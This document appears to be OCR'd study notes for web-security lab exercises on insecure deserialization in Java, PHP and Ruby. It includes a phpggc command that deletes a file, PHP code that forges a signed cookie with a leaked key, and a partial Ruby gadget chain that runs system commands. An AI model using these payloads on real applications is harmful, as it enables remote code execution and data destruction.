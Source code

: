 ```
4. Exploiting Java deserialization with Apache Commons
```
1. Use burp scanner to identify that the serialized object is Java Commons
2. Use ysoserial to create new payload
3. Base64 + URL encode it
```
5. Exploiting PHP deserialization with a pre-built gadget chain
```
1. Find out php.info
2. Find out Symfony ver and Secret Key
3. Create next payload:
phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
4. Sign it with Secret Key using PHP code
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```
6. Exploiting Ruby deserialization using a documented gadget chain
```
1. Use burp scanner to identify that the serialized object is Ruby using Marshal
2. Use the next code to create own object: 
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html 
```
```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")
